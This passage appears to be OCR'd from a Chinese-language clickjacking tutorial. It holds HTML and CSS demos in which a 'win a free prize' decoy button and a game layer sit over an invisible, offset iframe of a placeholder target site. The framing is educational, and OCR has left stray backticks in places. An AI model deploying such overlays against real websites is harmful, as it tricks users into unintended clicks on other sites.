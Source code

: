```html
      
      .decoy-button {
        position: absolute;
        top: 50%;
        left: 50%;
        transform: translate(-50%, -50%);
        padding: 10px 20px;
        background-color: `#4CAF50;`
        color: white;
        border: none;
        cursor: pointer;
      }
    </style>
  </head>
  <body>
    <div class="wrapper">
      <!-- 目标网站的iframe -->
      <iframe class="target-iframe" src="https://target-website.com"></iframe>
      <!-- 诱饵内容 -->
      <div class="decoy-content">
        <h2>赢取免费奖品！</h2>
        <button class="decoy-button">点击领取</button>
      </div>
    </div>
  </body>
  </html>

````

### 2.2. 更复杂的攻击示例

```html
  <!DOCTYPE html>
  <html>
  <head>
    <title>Advanced Clickjacking Demo</title>
    <style>
      .game-container {
        position: relative;
        width: 800px;
        height: 600px;
        margin: 0 auto;
        border: 1px solid `#ccc;`
        overflow: hidden;
      }
      
      .game-layer {
        position: absolute;
        top: 0;
        left: 0;
        width: 100%;
        height: 100%;
        z-index: 2;
      }
      
      .target-frame {
        position: absolute;
        width: 1200px;
        height: 800px;
        top: -100px;
        left: -200px;
        opacity: 0;
        z-index: 1;
```